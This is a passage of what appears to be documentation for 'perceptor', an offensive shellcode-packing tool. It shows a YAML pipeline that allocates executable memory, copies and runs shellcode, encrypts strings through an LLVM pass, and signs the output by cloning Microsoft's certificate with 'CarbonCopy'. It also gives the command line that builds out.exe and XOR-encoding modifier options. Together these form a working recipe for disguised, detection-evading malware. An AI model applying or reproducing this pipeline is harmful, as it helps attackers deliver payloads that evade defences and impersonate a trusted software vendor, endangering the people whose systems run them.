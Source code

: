 ```yaml
          name: Alloc memory and copy shellcode
          method: basic
          protection: rx

        - !cpp.clean
          name: Clean raw memory
          variable: raw

        - !cpp.drop
          name: Execute shellcode

    - !compiler.LLVMPass
      name: Compile
      passes: "strenc"

    - !signer.CarbonCopy
      name: CarbonCopy
      url_description: http://www.microsoft.com
      description: "My application"
      timestamp_url: http://sha256timestamp.ws.symantec.com/sha256/timestamp
      host: www.microsoft.com
      port: 443
```

Launch:

```bash
perceptor -c example.yaml -i src.bin -o out.exe
```

# Links (yaml tags)

## Modifier

### XOREncode

Random key length (10 - 50)

```yaml
- !modifier.XOREncode
  name: "XOREncode"
```

Fixed key length

```yaml
- !modifier.XOREncode
  name: Xor encode
  key_length: 50
```

### RNDOpcodes

